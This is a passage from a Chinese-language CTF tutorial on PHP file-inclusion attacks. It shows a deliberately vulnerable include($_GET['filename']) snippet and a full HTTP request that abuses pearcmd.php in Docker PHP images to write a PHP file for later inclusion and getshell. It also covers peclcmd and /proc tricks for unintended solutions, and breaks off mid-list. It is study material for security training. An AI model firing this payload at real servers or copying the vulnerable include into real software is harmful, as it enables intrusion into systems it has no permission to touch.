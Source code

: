     ```php
    # 注意使用 data:// 的时候必须开启 allow_url_include 和 allow_url_fopen
    <?php
      highlight_file(__FILE__);
      include($_GET['filename']);
    ?>

    推荐使用 `base64` 编码进行参数的传递

    ![img](./assets/include/image12.jpeg)
    ```

## bypass

### pearcmd

在[Docker PHP裸文件本地包含综述](https://www.leavesongs.com/PENETRATION/docker-php-include-getshell.html#0x06-pearcmdphp)中，提到了 `pearcmd.php` 的利用方法。该方法无需竞争条件，也没有额外的版本限制，只要是Docker启动的PHP环境即可通过一个数据包搞定。

> 在Docker的任何版本镜像中，`pcel/pear`都会被默认安装，安装路径在`/usr/local/lib/php`

通过发送以下数据包，目标将写入一个文件 `/tmp/hello.php`，其中包含 `<?=phpinfo()?>`。然后，利用文件包含漏洞包含这个文件即可实现getshell。

```http
GET /index.php?+config-create+/&file=/usr/local/lib/php/pearcmd.php&/<?=phpinfo()?>+/tmp/hello.php HTTP/1.1
Host: 192.168.1.162:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Connection: close
```

### peclcmd

与 `peclcmd` 相似，参考 [SEETF-2023](https://github.com/zeyu2001/My-CTF-Challenges/blob/main/SEETF-2023/readonly/README.md) 中的一道题目。

### proc

在文件包含漏洞的情境中，通常会存在非预期的情况，例如 [Dreamer\_revenge](https://5ime.cn/hmgb-2023.html#Dreamer-revenge)（红明谷杯 2023）、[ArkNights](https://jbnrz.com.cn/index.php/2023/09/03/ycb2023/#header-id-13)（羊城杯 2023）、\[YamiYami]\(https://ph0ebus.cn/post/HDCTF2023 Writeup.html#非预期解)（HDCTF 2023）、[MyBox](https://www.cnblogs.com/gxngxngxn/p/17662463.html)（NSSCTF 2nd）。因此，如果出题人未清空变量，很有可能通过 `/proc` 实现非预期攻击。

`/proc` 是一个在 Linux 系统中用于访问内核内部数据结构、获取系统信息以及控制系统行为的虚拟文件系统。它提供了一种通过文件系统的方式查看和操作内核状态的机制。值得注意的是，`/proc` 是一个伪文件系统，其数据只存在于内存中，而不占用硬盘空间。

以下是一些常用的 `/proc` 目录下文件和目录：

1. `/proc/self`：表示当前进程的目录。通过 `/proc/self` 可以方便地获取当前进程的信息。
2. `/proc/$pid/`：表示进程号为 `$pid` 的进程目录。例如，`/proc/1234/` 对应进程号为 1234 的进程（Docker容器默认的PID为1）
